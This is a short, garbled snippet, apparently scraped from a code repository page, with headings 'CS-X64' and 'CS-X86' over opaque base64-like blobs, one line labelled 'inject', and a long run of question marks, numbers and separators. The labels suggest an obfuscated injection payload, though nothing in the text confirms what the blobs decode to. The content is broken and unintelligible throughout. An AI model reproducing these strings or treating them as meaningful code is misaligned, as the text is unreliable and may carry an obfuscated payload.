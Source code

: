# CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

gsdg34???|2,????0;6,h???;10?,4;?1????4,E;1?8,O?;22,G??;26?,P;????30,????b;????34??,S;38??,S;42?,m;4???6,???5;50,?r;?5??4?,Z;5???8,????X;62????,M??;66??,?p????;????70??,????N;74,????g;7?8,4;??82????,x;86?,q;9???0,????s?;9?4,5???;98,Y?;102??,c??;106,?N;1?10,f;??1????14,?X????;118????,X;12????2,o????;1????26,?3;130????,???n;13???4,???@;|h?Ar0????C0hh6???ml4??9Y???YExyC??OzU2G??0LA?PvhIb????x?DnS?CLMS??VnBmr????NL5??N??Bqr?yU2Z????T9l??X1???0????5MgD???v????pDZeN????Vn???D?g5????w04????wlvx???zUYq0????9zs?nx???053l??jYzLN???cVm???A????NvgHf???hzm????XBVw???X????PfB???o????9I03x???znnm????0??t@Ziedrgf
htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
